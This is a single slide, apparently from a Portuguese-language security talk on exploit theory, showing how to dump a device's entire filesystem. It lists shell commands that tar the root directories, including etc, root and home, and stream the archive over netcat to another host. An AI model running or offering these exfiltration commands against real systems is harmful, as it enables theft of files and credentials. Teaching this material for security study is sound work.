

# Teoria do Exploit – Despejar o sistema de ficheiros
$ cd /

$ tar cf – bin boot box etc home lib mnt nfsroot opt root sbin share tmp usr | nc –lp 1337

$ nc –w 1 encoder 1337 > dump.tar